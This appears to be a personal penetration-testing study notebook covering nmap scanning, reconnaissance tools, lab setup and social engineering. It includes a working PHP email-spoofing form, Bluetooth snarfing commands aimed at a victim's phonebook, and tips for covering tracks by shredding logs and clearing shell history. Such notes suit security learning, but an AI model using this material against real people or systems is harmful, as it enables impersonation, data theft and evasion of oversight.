

In the example below, we scanned the target’s subnet using nmap -PE -sn
MACHINE_IP/24. This scan will send ICMP echo packets to every IP address
on the subnet. Again, we expect live hosts to reply; however, it is wise
to remember that many firewalls block ICMP. The output below shows the
result of scanning the virtual machine’s class C subnet using sudo nmap
-PE -sn MACHINE_IP/24 from the AttackBox.

Pentester Terminal

pentester@TryHackMe**$** sudo nmap -PE -sn 10.10.68.220/24

Starting Nmap 7.60 ( https://nmap.org ) at 2021-09-02 10:16 BST

Nmap scan report for ip-10-10-68-50.eu-west-1.compute.internal
(10.10.68.50)

Host is up (0.00017s latency).

MAC Address: 02:95:36:71:5B:87 (Unknown)

Nmap scan report for ip-10-10-68-52.eu-west-1.compute.internal
(10.10.68.52)

Host is up (0.00017s latency).

MAC Address: 02:48:E8:BF:78:E7 (Unknown)

Nmap scan report for ip-10-10-68-77.eu-west-1.compute.internal
(10.10.68.77)

Host is up (-0.100s latency).

MAC Address: 02:0F:0A:1D:76:35 (Unknown)

Nmap scan report for ip-10-10-68-110.eu-west-1.compute.internal
(10.10.68.110)

Host is up (-0.10s latency).

MAC Address: 02:6B:50:E9:C2:91 (Unknown)

Nmap scan report for ip-10-10-68-140.eu-west-1.compute.internal
(10.10.68.140)

Host is up (0.00021s latency).

MAC Address: 02:58:59:63:0B:6B (Unknown)

Nmap scan report for ip-10-10-68-142.eu-west-1.compute.internal
(10.10.68.142)

Host is up (0.00016s latency).

MAC Address: 02:C6:41:51:0A:0F (Unknown)

Nmap scan report for ip-10-10-68-220.eu-west-1.compute.internal
(10.10.68.220)

Host is up (0.00026s latency).

MAC Address: 02:25:3F:DB:EE:0B (Unknown)

Nmap scan report for ip-10-10-68-222.eu-west-1.compute.internal
(10.10.68.222)

Host is up (0.00025s latency).

MAC Address: 02:28:B1:2E:B0:1B (Unknown)

Nmap done: 256 IP addresses (8 hosts up) scanned in 2.11 seconds

The scan output shows that eight hosts are up; moreover, it shows
their MAC addresses. Generally speaking, we don’t expect to learn the
MAC addresses of the targets unless they are on the same subnet as our
system. The output above indicates that Nmap didn’t need to send ICMP
packets as it confirmed that these hosts are up based on the ARP
responses it received.

We will repeat the scan above; however, this time, we will scan from a
system that belongs to a different subnet. The results are similar but
without the MAC addresses.

Pentester Terminal

pentester@TryHackMe**$** sudo nmap -PE -sn 10.10.68.220/24

Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-02 12:16 EEST

Nmap scan report for 10.10.68.50

Host is up (0.12s latency).

Nmap scan report for 10.10.68.52

Host is up (0.12s latency).

Nmap scan report for 10.10.68.77

Host is up (0.11s latency).

Nmap scan report for 10.10.68.110

Host is up (0.11s latency).

Nmap scan report for 10.10.68.140

Host is up (0.11s latency).

Nmap scan report for 10.10.68.142

Host is up (0.11s latency).

Nmap scan report for 10.10.68.220

Host is up (0.11s latency).

Nmap scan report for 10.10.68.222

Host is up (0.11s latency).

Nmap done: 256 IP addresses (8 hosts up) scanned in 8.26 seconds

If you look at the network packets using a tool like Wireshark, you will
see something similar to the image below. You can see that we have one
source IP address on a different subnet than that of the destination
subnet, sending ICMP echo requests to all the IP addresses in the target
subnet to see which one will reply.

Because ICMP echo requests tend to be blocked, you might also consider
ICMP Timestamp or ICMP Address Mask requests to tell if a system is
online. Nmap uses timestamp request (ICMP Type 13) and checks whether it
will get a Timestamp reply (ICMP Type 14). Adding the -PP option tells
Nmap to use ICMP timestamp requests. As shown in the figure below, you
expect live hosts to reply.

In the following example, we run nmap -PP -sn MACHINE_IP/24 to discover
the online computers on the target machine subnet.

Pentester Terminal

pentester@TryHackMe**$** sudo nmap -PP -sn 10.10.68.220/24

Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-02 12:06 EEST

Nmap scan report for 10.10.68.50

Host is up (0.13s latency).

Nmap scan report for 10.10.68.52

Host is up (0.25s latency).

Nmap scan report for 10.10.68.77

Host is up (0.14s latency).

Nmap scan report for 10.10.68.110

Host is up (0.14s latency).

Nmap scan report for 10.10.68.140

Host is up (0.15s latency).

Nmap scan report for 10.10.68.209

Host is up (0.14s latency).

Nmap scan report for 10.10.68.220

Host is up (0.14s latency).

Nmap scan report for 10.10.68.222

Host is up (0.14s latency).

Nmap done: 256 IP addresses (8 hosts up) scanned in 10.93 seconds

Similar to the previous ICMP scan, this scan will send many ICMP
timestamp requests to every valid IP address in the target subnet. In
the Wireshark screenshot below, you can see one source IP address
sending ICMP packets to every possible IP address to discover online
hosts.

Similarly, Nmap uses address mask queries (ICMP Type 17) and checks
whether it gets an address mask reply (ICMP Type 18). This scan can be
enabled with the option -PM. As shown in the figure below, live hosts
are expected to reply to ICMP address mask requests.

In an attempt to discover live hosts using ICMP address mask queries, we
run the command nmap -PM -sn MACHINE_IP/24. Although, based on earlier
scans, we know that at least eight hosts are up, this scan returned
none. The reason is that the target system or a firewall on the route is
blocking this type of ICMP packet. Therefore, it is essential to learn
multiple approaches to achieve the same result. If one type of packet is
being blocked, we can always choose another to discover the target
network and services.

Pentester Terminal

pentester@TryHackMe**$** sudo nmap -PM -sn 10.10.68.220/24

Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-02 12:13 EEST

Nmap done: 256 IP addresses (0 hosts up) scanned in 52.17 seconds

Although we didn’t get any reply and could not figure out which hosts
are online, it is essential to note that this scan sent ICMP address
mask requests to every valid IP address and waited for a reply. Each
ICMP request was sent twice, as we can see in the screenshot below.

We can ping every IP address on a target network and see who would
respond to our ping (ICMP Type 8/Echo) requests with a ping reply (ICMP
Type 0). Simple, isn’t it? Although this would be the most
straightforward approach, it is not always reliable. Many firewalls
block ICMP echo; new versions of MS Windows are configured with a host
firewall that blocks ICMP echo requests by default. Remember that an ARP
query will precede the ICMP request if your target is on the same
subnet.

To use ICMP echo request to discover live hosts, add the option -PE.
(Remember to add -sn if you don’t want to follow that with a port scan.)
As shown in the following figure, an ICMP echo scan works by sending an
ICMP echo request and expects the target to reply with an ICMP echo
reply if it is online.

##### General use

Note: You can chain multiple scans

**Nmap docs!** <https://nmap.org/nsedoc/>

<https://nmap.org/book/man.html>

##### Scanning multiple subnets

##### Scan timing and performance

To avoid IDS alerts, you might consider -T0 or -T1. For
instance, -T0 scans one port at a time and waits 5 minutes between
sending each probe, so you can guess how long scanning one target would
take to finish. If you don’t specify any timing, Nmap uses normal -T3.
Note that -T5 is the most aggressive in terms of speed; however, this
can affect the accuracy of the scan results due to the increased
likelihood of packet loss. Note that -T4 is often used during CTFs and
when learning to scan on practice targets, whereas -T1 is often used
during real engagements where stealth is more important.

Alternatively, you can choose to control the packet rate
using --min-rate \<number\> and --max-rate \<number\>. For
example, --max-rate 10 or --max-rate=10 ensures that your scanner is not
sending more than ten packets per second.

Moreover, you can control probing parallelization
using --min-parallelism \<numprobes\> and --max-parallelism
\<numprobes\>. Nmap probes the targets to discover which hosts are live
and which ports are open; probing parallelization specifies the number
of such probes that can be run in parallel. For
instance, --min-parallelism=512 pushes Nmap to maintain at least 512
probes in parallel; these 512 probes are related to host discovery and
open ports.

##### Host Discovery (no port-scanning)

By default nmap uses ping.

- **-sn :** a scan without portscanning (also called a “ping scan”).

  - sudo nmap -sn 192.168.1.0/24

  - ^ Above uses /24 assuming the default gateway subnet mask of
    255.255.255.0

- ***Using ARP \[host discovery\]***

  - **-PR \<host\>:** ARP scan

- ***Using ICMP \[host discovery\]***

  - **-PR -sn \<host\>:** an ARP scan without port-scanning.

  - **-PE -sn \<host\>:** IMCP echo scan

  - **-PE -sn \<host\>**: IMCP echo scan with no port-scanning.

  - \-**PP -sn \<host\>:** Use ICMP timestamp requests/ICMP Address mask

    - Often more effective that PE as firewalls often block/drop ICMP
      echo packets to preent ping flood/ping of death.and DDoS.

  - **-PM -sn \<host\>:** nmap address mask (not to be confused with
    ICMP address mask)

It’s important to note that if one method fails – others should be tried
as it could just be the firewall blocking one method but not all.

##### Port scanning

You can specify the ports you want to scan instead of the default 1000
ports. Specifying the ports is intuitive by now. Let’s see some
examples:

- port list: -p22,80,443 will scan ports 22, 80 and 443.

- port range: -p1-1023 will scan all ports between 1 and 1023 inclusive,
  while -p20-25 will scan ports between 20 and 25 inclusive.

You can request the scan of all ports by using -p-, which will scan all
65535 ports. If you want to scan the most common 100 ports, add -F.
Using --top-ports 10 will check the ten most common ports.

Using --top-ports 10 will check the ten most common ports.

**Stealth scan (chose ports)**: 

Add the ‘oG’ flag to “output into a “greppable” format

For example…

*Verify (check listening TCP connections)*

nmap –sT 192.168.181.0/24 –p 3306 \> /dev/null –oG output.txt

My testing…

##### TCP/UDP host/port scanning

**Portscanning**

- **-PS\<port\>** **\<host\>** : TCP SYN Ping

- **-PA\<port\> \<host\>** : TCP ACK Ping

  - You must be running Nmap as a privileged user to be able to
    accomplish this. If you try it as an unprivileged user, Nmap will
    attempt a 3-way handshake.

- **-PU\<port\>** **\<host\>**: UDP Ping

*Note: not specifying a port will usually default to common ports – can
be used for host discovery.*

**Hostscanning**

- **-PS -sn** **\<host\>**: TCP SYN Ping

- **-PA -sn** **\<host\>**: TCP ACK Ping

  - You must be running Nmap as a privileged user to be able to
    accomplish this. If you try it as an unprivileged user, Nmap will
    attempt a 3-way handshake.

- \-**PU -sn** **\<host\>**: UDP Ping

If you want Nmap to use TCP SYN ping, you can do so via the
option -PS followed by the port number, range, list, or a combination of
them. For example, -PS21 will target port 21, while -PS21-25 will target
ports 21, 22, 23, 24, and 25. Finally -PS80,443,8080 will target the
three ports 80, 443, and 8080.

Privileged users (root and sudoers) can send TCP SYN packets and don’t
need to complete the TCP 3-way handshake even if the port is open, as
shown in the figure below. Unprivileged users have no choice but to
complete the 3-way handshake if the port is open.

##### Firewall evasion

##### Scanning anonymously with proxychains’

Best to scan anonymously using proxychans! *(see below)*

##### Service/Version detection

**Service version detection**

nmap -sV

Here we can also see the versions of the service we’ve detected:

Above we seen the service version (SSH, Apache, etc) and we see the OS
(Ubuntu), but what if we wanted to see the OS version? We use the -O
flag.

**OS Version Detection**

nmap -O

^ Last line “OS Details” give the range of OS detected.

Good to combine os scanning with version scanning (services enumeration)

nmap -sV -o

##### Output options

**More output flags:**

##### Nmap in crons

Always run as sudo if you want MAC address info. Also, if using as
crontab apply in sudo crontab –e and place nmap command in a bash script
– don’t run directly as a command in crontab, leads to expected results
at times.

##### Advanced nmap

##### nmap -P vs -s

For example, the **-PS** vs the **-sS** switches.

The “P” switches are to see if a host is up – so will return a positive
result even if the SYN request doesn’t receive an ACK. A positive result
could be returned even if a RSET is sent back. Basically, as long as we
get a response – we’re good.

By contrast, the “s” switch, tests the listening status of a host/port.

##### Tcp SYN scan vs Tcp Connect scan (-sS vs -sT)

Connect scan (-sT) requires a full 3way handshake whereas a SYN scan
doesn’t (-sS).

As a result, a SYN scan requires root privilege and if not will revert
down to a connect scan.

##### nmap scripting

NSE scripts

In kali, there will be a dir named **/usr/share/nmap/scripts/** where
you can see all of the scripts able to be ran. You can pass in any
scripts from there to be ran with namp and you need the name of the
script – you don’t need the extension (.nse).

You can call individual scripts, multiple scripts, or a “group” or
“category” of scripts.

Vuln runs all scripts listed as possible nmap scripts in one command

**<u>Scan for scripting (XSS) vulnerablities</u>**

**To find out what a script does**

sudo nmap –script-help \<script_name\>

*Example*

sudo nmap –script-help firewall-bypass.nse

#### Dmitry



#### masscan (nmap but aggressive and fast)

On a side note, Masscan uses a similar approach to discover the
available systems. However, to finish its network scan quickly, Masscan
is quite aggressive with the rate of packets it generates. The syntax is
quite similar: -p can be followed by a port number, list, or range.
Consider the following examples:

- masscan MACHINE_IP/24 -p443

- masscan MACHINE_IP/24 -p80,443

- masscan MACHINE_IP/24 -p22-25

- masscan MACHINE_IP/24 ‐‐top-ports 100

Masscan can be installed using apt install masscan.

**Masscan with a config file**

#### scanless (Services and software info)

#### Whatweb (get system info)

Pre-installed in kali.

#### Wappalyzer (tech stack)

<https://www.wappalyzer.com/>

Find out the technology stack of any website. Create lists of websites
that use certain technologies, with company and contact details.

#### Netcat (nc) (test connection+ more) (banner grabbing)

*Called **Test-Network-Connection** in windows powershell*

- Netcat (linux/mac)

  - The Netcat tool can be run through the command nc, and has two
    mandatory arguments, a host and a port.

  - 

- Running this command would try to establish a connection on port 80 to
  google.com:

- 

- If the connection fails, the command will exit. If it succeeds, you'll
  see a blinking cursor, waiting for more input. This is a way for you
  to actually send application layer data to the listening service from
  your own keyboard. If you're really only curious about the status of a
  report, you can issue the command, with a -z flag, which stands for
  zero input/output mode. A -v flag, which stands for verbose, is also
  useful in this scenario. So now, the command looks like this:

- 

- By issuing the netcat command with the -Z and -V flags, the command's
  output will simply tell you if a connection to the port in question is
  possible or not, like this:

- 

Once we know we can connect, we can try to use netcat to actually
connect to the other machine:

netcat \<host\> \<port\>

Add a timeout after (5) seconds if no connection:

##### FTP with netcat

##### Hacking use (to remote connect)

netcat -v \<host\> \<port\>

##### Hacking use (banner grabbing)

***Using nmap***



***Using netcat***

<https://gcgapremium.com/banner-grabbing/>

echo “” | netcat -v \<host\> \<port\>

Useful for **banner grabbing** where one obtains information about some
target:

Though telnet can also be used:

#### Hunter.io Email enumeration - Emails from Domain

Site: Hunter.io

#### \[ALL-INI-ONE\] The harvester (script) – especially email enumeration.

**Searching all domains**

“-s” is used to search on Shodan.

“-b” is used to specify your doman – see “-h” to view all domains.

**Searching PGP (emails**

**)**

Trying google emails…

Note: This programs sometimes gives different results at different
times. Try running scans across different times to be thorough.

### DNS Enumeration

#### dnsenum

### Subdomain Enumeration (active and passive)

Subdomain enumeration is the process of finding valid subdomains for a
domain, but why do we do this? We do this to expand our attack surface
to try and discover more potential points of vulnerability.

#### Fierce

#### \[BRUTE FORCE\] DNS Brute forcing (dnsrecon)

dnsrecon -t \<type\> -d \<domain\>

#### \[BRUTE FORCE - Requests\] Virtual Hosts (using ffuf)

Some subdomains aren't always hosted in publically accessible DNS
results, such as development versions of a web application or
administration portals. Instead, the DNS record could be kept on a
private DNS server or recorded on the developer's machines in their
/etc/hosts file (or c:\windows\system32\drivers\etc\hosts file for
Windows users) which maps domain names to IP addresses. 

Because web servers can host multiple websites from one server when a
website is requested from a client, the server knows which website the
client wants from the **Host** header. We can utilise this host header
by making changes to it and monitoring the response to see if we've
discovered a new website.

Like with DNS Bruteforce, we can automate this process by using a
wordlist of commonly used subdomains.

The above command uses the **-w** switch to specify the wordlist we are
going to use. The **-H** switch adds/edits a header (in this instance,
the Host header), we have the **FUZZ** keyword in the space where a
subdomain would normally go, and this is where we will try (interpolate)
all the options from the wordlist.

Because the above command will always produce a valid result, we need to
filter the output. We can do this by using the page size result with
the **-fs** switch. Edit the below command replacing {size} with the
most occurring size value from the previous result and try it on the
AttackBox.  

# Attacks in Practice: Gaining Access

## Setting up a testing lab

**PenTest+ (Practice Exam):**
<https://github.com/PacktPublishing/CompTIA-Pentest-Ethical-Hacking-Course-and-Practice-Exam>

### Ethical Hacking In practice (overview)

- Stop logging service (rsyslog)

- Shred logs

- Clear ~/.bash_history file (redirect null file to bash history)

- Anonymize traffic with proxychains

### Virtual Lab setup per “Ethical Hacking: 2nd edition”

Virtual box to install five virtual machines

- Pfsense as a router/firewall

- Kali machine (our hacking)

  - User: kali

  - Pass: kali

- Two ubuntu machines (victim machines)

  - User: bobby

  - Pass: /^ubuntu$/gi

- Metasploitable machine

  - User: msfadmin

  - Pass: msfadmin

To create a virtual network of VMs using virtualbox…

- Create one VM that will serve as a router (try pfsense)

  - Network Adapter 1: Bridged Adatper (selecting your network card).

  - Network Adapter 2: Internal network (this creates a virtual LAN
    which you can name)

- Subsequent VMs

  - Network Adapter 1: Select your VLAN (your named <u>internal
    network</u> per above)

***Network Connection Types (Virtualbox)***

*Under “Network Settings”*

- NAT (default)

  - This makes your host machine acts as a virtual router where your VM
    gets a new local ip (10.0.0.0.x) and will act as the default gateway

- Bridged

  - This makes your VM connect to the router through your machine – so
    your vm will be on the same network as your host machine and will
    gain a local ip from the same DHCP server as your host machine.

- NAT Network

  - Ideal if you have multiple VMs and you want them all to communicate
    with each other on the same internal virtual network.

  - Also good if you bridged adapter is facing issues

    - <https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/34276192#overview>

    - 

### Setting Up Kali

*Use at least the second link*

<https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/>

<https://www.kali.org/docs/installation/hard-disk-install/>

Using Virtuabox OVA file:

<https://techantidote.com/install-kali-linux-in-virtualbox-using-ova-file/>

OVA can be further extracted to get VMDK:

<https://www.youtube.com/watch?v=7CpkRbVOrpw>

*Kali for RaspberryPi*

[*https://linuxhint.com/install_kali_linux_raspberry_pi_4/*](https://linuxhint.com/install_kali_linux_raspberry_pi_4/)

### Verifying downloads against checksum

**Linux**

<https://www.youtube.com/watch?v=pYNuKXjcriM>

**Powershell**

<https://www.youtube.com/watch?v=YM2CE6zKvoo>

### Metasploitable

There’s a known error with mutuillidae. We can fix by updating config
file

Configuration:

Last line - change name from “metasploit” to “owasp10”

Before

After

## Attack Frameworks

<https://cisotimes.com/five-top-penetration-testing-frameworks-and-methodologies/>

MITRE: A Comprehensive Guide: <https://www.varonis.com/blog/mitre-attck>

- **Lockheed Martin Killchain**

  - Employs a 7-step method

    - Reconnaissance

    - Weaponization

    - Delivery

    - Exploitation

    - Installation

    - Command and control

    - Actions on Objections

- **MITRE ATT&CK Framework**

  - A knowledge based on a matrix of known attacks and potential
    threats.

- **Diamon Model of Intrusion Analysis**

  - Analyzes cybersecurity incidents in relation to four core features

    - Adversary, Capability, Infrastructure, victim

## Email Spoofing

**Method 1: Setting up SMTP Server**

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/11737684#content>

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/11737670#content>

**Method 2: Use web hosting**

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/19824434#content>

**=== CODE ===**

\<?php

if (isset($\_POST\["send"\])) {

$to = $\_POST\["to"\];

$subject = $\_POST\["subject"\];

$message = $\_POST\["message"\];

$from = $\_POST\["from"\];

$name = $\_POST\["name"\];

if (!(filter_var($to, FILTER_VALIDATE_EMAIL) && filter_var($from,
FILTER_VALIDATE_EMAIL))) {

echo "Email address inputs invalid";

die();

}

$header = "From: " . $name . " \<" . $from . "\>\r\nMIME-Version:
1.0\r\nContent-type: text/html\r\n";

$retval = mail ($to, $subject, $message, $header);

if ($retval) {

echo "Email sent.";

} else {

echo "Email did not send. Error: " . $retval;

}

} else {

echo

'\<html\>

\<head\>

\<style\>

input\[type=submit\] {

background-color: \#4CAF50;

border: none;

color: white;

padding: 14px 32px;

text-decoration: none;

margin: 4px 2px;

cursor: pointer;

font-size: 16px;

}

\</style\>

\</head\>

\<body\>

\<h2\>Spoof Email\</h2\>

\<form action="/send.php" method="post" id="emailform"\>

\<label for="to"\>To:\</label\>\<br\>

\<input type="text" id="to" name="to"\>\<br\>\<br\>

\<label for="from"\>From:\</label\>\<br\>

\<input type="text" id="from" name="from"\>\<br\>\<br\>

\<label for="name"\>Name (optional):\</label\>\<br\>

\<input type="text" id="name" name="name"\>\<br\>\<br\>

\<label for="subject"\>Subject:\</label\>\<br\>

\<input type="text" id="subject" name="subject"\>\<br\>\<br\>

\<label for="message"\>Message \[HTML is supported\]:\</label\>\<br\>

\<textarea rows="6" cols="50" name="message"
form="emailform"\>\</textarea\>\<br\>\<br\>

\<input type="hidden" id="send" name="send" value="true"\>

\<input type="submit" value="Submit"\>

\</form\>

\<p\>An e-mail will be sent to the desired target with a spoofed From
header when you click Submit.\</p\>

\</body\>

\</html\>' ;

}

?\>

**=== END CODE ===**

## Bluetooth Attacks

### Bluesnarfing

<https://www.hacktoday.com/kali-linux-tutorial-hack-bluetooth/>

**Installing bluesnarfer**

sudo apt install bluesnarfer

**Configure rfcomm (if needed)**

mkdir -p /dev/bluetooth/rfcomm

mknod -m 666 /dev/bluetooth/rfcomm/0 c 216 0

mknod --mode=666 /dev/rfcomm0 c 216 0

hciconfig -i hci0 up

hciconfig hci0

**Snarfing**

*Assumes your Bluetooth interface name is hci0*

**hcitool scan hci0**

(Scan for victims)

**hcitool scan hci0**

(ping the victim to see if he is awake)

**l2ping  \< victim mac addr\>**

(browse the victim for rfcomm channels to connect to)

**sdptool browse --tree --l2cap \< mac addr \>**

(then you can use bluesnarfer for example to read the victim’s
phonebook, dial a number or read Sms or other things.)

**Bluesnarfer -r 1-100 -C 7 -b \< mac addr \>**

(to see available options to do )

**bluebugger -h**

(Dial number )

**bluebugger -m \< victim name \> -c 7 -a \< mac addr \> Dial \< number
\>**

## Social Engineering Attacks

You can harden your defenses as much as you want. You can spend millions
of dollars on State of the Art Security Infrastructure. But if Susan the
systems administrator has all the access to your system, and gets
tricked into handling over her credentials, there's nothing you can do
to stop it. As we've learned from the greatest sci-fi movies, humans
will always be the weakest link in life, and in your security system.
Social engineering is a kind of con game where attackers use deceptive
techniques to gain access to personal information. They then try to have
a user execute something, and basically scam a victim into doing that
thing.

### Overview

**Social engineering** is a manipulation technique that exploits human
error to gain private information, access, or valuables. Human error is
usually a result of trusting someone without question. It’s the mission
of a threat actor, acting as a social engineer, to create an environment
of false trust and lies to exploit as many people as possible. 

Some of the most common types of social engineering attacks today
include:

- **Social media phishing:** A threat actor collects detailed
  information about their target from social media sites. Then, they
  initiate an attack.

- **Watering hole attack:** A threat actor attacks a website frequently
  visited by a specific group of users.

- **USB baiting:** A threat actor strategically leaves a malware USB
  stick for an employee to find and install, to unknowingly infect a
  network. 

- **Physical social engineering:** A threat actor impersonates an
  employee, customer, or vendor to obtain unauthorized access to a
  physical location.

### **<u>Social engineering principles </u>**

Social engineering is incredibly effective. This is because people are
generally trusting and conditioned to respect authority. The number of
social engineering attacks is increasing with every new social media
application that allows public access to people's data. Although sharing
personal data—such as your location or photos—can be convenient, it’s
also a risk.

Reasons why social engineering attacks are effective include:

- **Authority:** Threat actors impersonate individuals with power. This
  is because people, in general, have been conditioned to respect and
  follow authority figures. 

- **Intimidation:** Threat actors use bullying tactics. This includes
  persuading and intimidating victims into doing what they’re told. 

- **Consensus/Social proof:** Because people sometimes do things that
  they believe many others are doing, threat actors use others’ trust to
  pretend they are legitimate. For example, a threat actor might try to
  gain access to private data by telling an employee that other people
  at the company have given them access to that data in the past. 

- **Scarcity:** A tactic used to imply that goods or services are in
  limited supply. 

- **Familiarity:** Threat actors establish a fake emotional connection
  with users that can be exploited.  

- **Trust:** Threat actors establish an emotional relationship with
  users that can be exploited *over time*. They use this relationship to
  develop trust and gain personal information.

- **Urgency:** A threat actor persuades others to respond quickly and
  without questioning.

### Phishing

<https://www.youtube.com/watch?v=u9dBGWVwMMA>

A popular type of social engineering attack is a **phishing attack**.
Phishing usually occurs when a malicious email is sent to a victim
disguised as something legitimate. One common phishing attack is an
email, saying your bank account has been compromised. And then, gives
you a link to click on to reset your password. When you go to the link,
it looks like your bank's website but it's actually a fake website. So
you're tricked into entering your current password and credentials in
order to reset your current password.

Phishinsight.com can be used to create phishing attacks

**Phishing** is the use of digital communications to trick people into
revealing sensitive data or deploying malicious software. 

Some of the most common types of phishing attacks today include: 

- **Business Email Compromise (BEC):** A threat actor sends an email
  message that seems to be from a known source to make a seemingly
  legitimate request for information, in order to obtain a financial
  advantage.

- **Spear phishing:** A malicious email attack that targets a specific
  user or group of users. The email seems to originate from a trusted
  source.

- **Whaling:** A form of spear phishing. Threat actors target company
  executives to gain access to sensitive data.

- **Vishing:** The exploitation of electronic voice communication to
  obtain sensitive information or to impersonate a known source.

- **Smishing:** The use of text messages to trick users, in order to
  obtain sensitive information or to impersonate a known source.

Staying up-to-date on phishing threats is one of the best things you can
do to educate yourself and help your organization make smarter security
decisions.

- [Google’s phishing quiz](https://phishingquiz.withgoogle.com/) is a
  tool that you can use or share that illustrates just how difficult it
  can be to identify these attacks.

- [Phishing.org](https://www.phishing.org/) reports on the latest
  phishing trends and shares free resources that can help reduce
  phishing attacks.

- The [Anti-Phishing Working Group (APWG)](https://apwg.org/) is a
  non-profit group of multidisciplinary security experts that publishes
  a quarterly report on phishing trends.

#### Smishing

Social engineering via text (usually using spoofed number).

**Smishing:** The use of text messages to trick users, in order to
obtain sensitive information or to impersonate a known source. Smishing
covers all forms of text messaging services, including Apple’s
iMessages, WhatsApp, and other chat mediums on phones.

#### Vishing

Social engineering via phone (often using voip and using a spoofed phone
number).

#### Spear Phishing

Another variation of phishing is **spear phishing**. Both phishing
schemes have the same end goals, but spearfishing specifically targets
individual or group. The fake emails may contain some personal
information like your name, or the names of friends or family. So they
seem more trustworthy.

#### Whaling

**Whaling**, in cyber security, is a form of phishing that targets
valuable individuals. This typically means high-ranking officials and
governing and corporate bodies. The purpose of whaling is to acquire an
administrator’s credentials and sensitive information.

### Email Spoofing

Another popular social engineering attack is **email spoofing**.
Spoofing is when a source is masquerading around as something else.
Think of an email spoof. This is what happens when you receive an email
with a misleading sender address. You can send an email and have it
appear to come from anywhere you want, whether it exists or not. Imagine
if you open that email you thought was from your friend Brian. Brian's
real email address is in the front part and the email says that you have
to check out this funny link. Well, you know Brian. He's pretty awesome
and he always said super funny emails, so you click on the link.
Suddenly, you have malware installed. And you're probably not feeling so
awesome about Brian right now.

### **Watering hole attack**

**Watering hole** is a type of attack when a threat actor compromises a
website frequently visited by a specific group of users. Oftentimes,
these watering hole sites are infected with malicious software. An
example is the *Holy Water attack of 2020* that infected various
religious, charity, and volunteer websites.

### Baiting

Not all social engineering occurs digitally. In fact, one attack happens
through actual physical contact. This is called baiting, which is used
to entice a victim to do something. For example, an attacker could just
leave a USB drive somewhere in hopes that someone out there will plug it
into their machine to see what's on it. But they've just installed
malware on the machine without even knowing it.

#### Quid pro quo

**Quid pro quo** is a type of baiting used to trick someone into
believing that they’ll be rewarded in return for sharing access,
information, or money. For example, an attacker might impersonate a loan
officer at a bank and call customers offering them a lower interest rate
on their credit card. They'll tell the customers that they simply need
to provide their account details to claim the deal.

### Tailgating

Another popular attack that can occur offline is called tailgating,
which is essentially gaining access into a restricted area or building
by following a real employee in. In most corporate environments,
building access is restricted through the use of a keycard or some other
entry method. But a tailgater could use social engineering tactics to
trick an employee into thinking that they're there for a legitimate
reason like doing maintenance on the building, or delivering packages.
Once a tailgater is in, they have physical access to your corporate
assets. Pretty scary stuff we've covered so far huh? I bet you didn't
realize that there were so many ways to compromise security. Hopefully,
you've gained a better grasp on the common attacks out there, and signs
and what to look for. Now that you've been exposed to the fundamental
types of security threats, we'll dive deep into best practices for
security and how to create technical implementations for secure systems.
But first up, we're going to test your knowledge with a quiz covering
the different attacks we've talked about in this module.

## Web/Browser-based attacks : Web security & Bug Bounty Hunting

### Cheat sheets

**Injection cheat sheets**

- Command injection:
  <https://hackersonlineclub.com/command-injection-cheatsheet/>

- 

### Notable websites

- **PortSwigger:** LABS - Has broken test sites for practice

- **TryHackme:** LABS - Has broken test sites for practice

- **Burpsuite:**

- **Wappalyzer**: see what technologies websites are using.

### BeEF (Browser Exploitation)

<https://www.youtube.com/watch?v=EL96fXFNLNA>

### Information Disclosure Vulnerabilities

#### Hidden Requests

Use burp suite to intercept requests and see which other requests are
happenin behind the scenes.

#### Query Parameters

Editing query parameters is a good way to see what values can be
accepted and what happens when an error is thrown.

### Path/directory traversal 

#### Directory traversal cheat sheet

#### Robots.txt

Check if this file exists (/robots.txt) as it’s intended to create rules
for webscraping – but can lead to information about a websites dir
structure.

#### Sitemap.xml

Unlike the robots.txt file, which restricts what search engine crawlers
can look at, the sitemap.xml file gives a list of every file the website
owner wishes to be listed on a search engine. These can sometimes
contain areas of the website that are a bit more difficult to navigate
to or even list some old webpages that the current site no longer uses
but are still working behind the scenes.

#### Ffuf

#### Dirb (directory buster)

**Without a wordlist**

Wordlist defaults to

Trying with metasploit mittilidae

**With an explicit wordlist**

#### Gobuster

Findings…

**Using wordlists provided in kali (/usr/share/wordlists)**

#### Feroxbuster

Feroxbuster: <https://github.com/epi052/feroxbuster>

Kali: <https://www.kali.org/tools/feroxbuster/>

Feroxbuster is a good tool to identify the path structure of a system.

**Usage:** ./feroxbuster -u/url \<domain\> \<wordlist\>

Note: if your don’t specify the protocol (“http” for example) then https
will be assumed – best to be explicit).

The wordlist in this case won’t be a list of password – but will instead
be a list of possible paths.

**Wordlist resource**: <https://github.com/danielmiessler/SecLists>

This particular dir list:
<https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt>

#### Burp Proxy

##### Burp repeater

Use Burp proxy intercepter and send to repeater

Use the repeater to repeat a request AND view the response from the
server it it’s entirety

##### Burp Intruder: Sniper

